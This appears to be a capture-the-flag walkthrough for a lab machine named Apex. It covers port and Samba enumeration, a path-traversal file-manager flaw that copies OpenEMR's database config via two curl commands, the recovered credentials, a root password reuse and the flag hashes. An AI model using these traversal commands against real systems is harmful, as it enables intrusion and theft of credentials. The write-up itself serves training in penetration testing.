# APEX \| 20 POINTS



## NMAP SCAN

```text
PORT     STATE SERVICE     REASON         VERSION
80/tcp   open  http?       syn-ack ttl 63
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack ttl 63 MySQL (blocked - too many connection errors)
```

## SAMBA ENUMERATION

Two files and we only have Read access.



## FeroxBuster 

### /filemanager



The Sames files found in SMB Share





### EXPLOIT \(LFI\)

* [https://www.exploit-db.com/exploits/45987](https://www.exploit-db.com/exploits/45987)



### /OPENEMR





To find how the files are stored in the web root, see the github page of the application

* [https://github.com/openemr/openemr](https://github.com/openemr/openemr)

The database creds are stored in /site/default/sql.conf.php

```text
curl -X POST -d "sub_action=copy&path=../../../../../../../var/www/openemr/sites/default/sqlconf.php" -H "Cookie: PHPSESSID=cq0h5q153nhptfk0kcp1nld88h" "http://192.168.159.145/filemanager/ajax_calls.php?action=copy_cut"

curl -X POST -d "path=Documents/" -H "Cookie: PHPSESSID=cq0h5q153nhptfk0kcp1nld88h" "http://192.168.159.145/filemanager/execute.php?action=paste_clipboard"

```



```text
openemr:C78maEQUIEuQ

```




```text
admin:thedoctor
```

### EXPLOIT

* [https://www.exploit-db.com/exploits/45161](https://www.exploit-db.com/exploits/45161)



## PRIVESC

* The password "thedoctor" is also the root password.

## FLAGS

### LOCAL.TXT

```text
31e3542adacf3a0e94478718821e1983
```

### PROOF.TXT

```text
2d45958a2dfeeb9b7f84568cc86d650d
```

